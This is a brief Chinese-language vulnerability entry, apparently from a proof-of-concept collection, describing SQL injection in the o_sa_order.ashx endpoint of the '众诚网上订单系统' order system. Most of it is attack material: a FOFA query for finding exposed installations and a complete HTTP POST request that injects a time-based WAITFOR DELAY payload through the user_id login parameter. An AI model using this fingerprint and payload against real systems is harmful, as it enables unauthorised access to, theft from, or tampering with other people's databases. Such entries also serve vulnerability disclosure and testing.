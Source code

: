 # 众诚网上订单系统o_sa_order.ashx存在SQL注入漏洞

众诚网上订单系统o_sa_order.ashx存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```yaml
title="众诚网上订单系统"
```

## poc

```javascript
POST /ajax/o_sa_order.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Priority: u=0
 
type=login&user_id=1%27);WAITFOR%20DELAY%20%270:0:5%27--&user_pwd=1
```

